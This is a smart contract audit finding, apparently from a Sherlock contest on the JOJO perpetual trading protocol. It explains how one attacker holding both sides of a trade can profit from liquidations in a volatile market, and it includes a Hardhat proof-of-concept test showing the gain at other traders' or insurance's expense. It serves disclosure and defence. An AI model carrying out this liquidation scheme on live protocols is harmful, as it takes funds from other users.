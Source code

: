 immeas

high

# market can be abused during times of high volatility

## Summary
If the market is volatile, positions just at margin can be abused using liquidations to steal from other traders/insurance

## Vulnerability Detail
To open a position your net value (position + credit) must be above `maintenanceMargin`:

https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L100-L103
```solidity
File: smart-contract-EVM/contracts/lib/Liquidation.sol

100:            netPositionValue +
101:                state.primaryCredit[trader] +
102:                SafeCast.toInt256(state.secondaryCredit[trader]) >=
103:            SafeCast.toInt256(maintenanceMargin);
```

Now here it's assumed that a trader doesn't want to be liquidated. But if the market is volatile and both sides are just different accounts by the same attacker this attacker can use this to liquidate at the expense of other traders/insurance.

PoC test in `trade-test.ts`:
```javascript
    it("gain from liquidation", async () => {
      let ada = new ethers.Wallet("0x1111111111111111111111111111111111111111111111111111111111111111", ethers.provider);
      await ethers.provider.send("hardhat_setBalance", [ada.address,"0x10000000000000000000",]);
      await context.primaryAsset.connect(ada).approve(context.dealer.address, utils.parseEther("1000"));
      await context.primaryAsset.mint([ada.address], [utils.parseEther("1000")]);

      let bob = new ethers.Wallet("0x2222222222222222222222222222222222222222222222222222222222222222", ethers.provider);
      await ethers.provider.send("hardhat_setBalance", [bob.address,"0x10000000000000000000",]);
      await context.primaryAsset.connect(bob).approve(context.dealer.address, utils.parseEther("1000"));
      await context.primaryAsset.mint([bob.address], [utils.parseEther("1000")]);

      await context.dealer.connect(ada).deposit(utils.parseEther("1000"), 0, ada.address);
      await context.dealer.connect(bob).deposit(utils.parseEther("1000"), 0, bob.address);

      // open at market price
      await openPosition(
        ada,
        bob,
        "1",
        "30000",
        context.perpList[0],
        orderEnv
      );

      // price changes a bit
      await context.priceSourceList[0].setMarkPrice(utils.parseEther("31000"));

      // bob is no longer safe
      await context.perpList[0].connect(ada).liquidate(
        ada.address,
        bob.address,
        utils.parseEther("-1"),
        utils.parseEther("31000")
      );

      // ada has made more than both her and bobs deposits together
      // i.e. "stolen" from other traders/insurance
      const credit = await context.dealer.getCreditOf(ada.address);
      expect(credit[0]).to.be.eq(utils.parseEther("2295"));
    });
```
This example works the same way if the price falls, then `ada` is no longer safe and `bob` can liquidate with the same result.

This also relies on that they can do the liquidation before anyone else which is a risk with this setup. But since they have the advantage of knowing exactly which positions to cover they can setup a bot to monitor this.

## Impact
A trader can place orders in a volatile market making liquidations at the expense of other traders/insurance. This is not without risk as anyone can do these liquidations.

The PoC above ofc relies on the configuration set in the tests but the principle holds. As long as the volatility is "greater than" the maintenance margin there is an opportunity for this attack. The maintenance margin really cannot be changed (at least not raised) once set either as that would have impacts on other traders positions and might force them into liquidation.

There will also be a bit of a lead to when to start this attack as the prices used in the protocol are TWAP. Someone looking to abuse this can lock at spot trade prices and foresee when the volatility might happen.

## Code Snippet
See above.

## Tool used
Manual Review

## Recommendation
Hard to say here, perhaps a safety margin on top of the normal margin. Or a minimum desposit depending on trading size. That would increase the risk of doing this attack since it also relies on being able to be first with liquidation.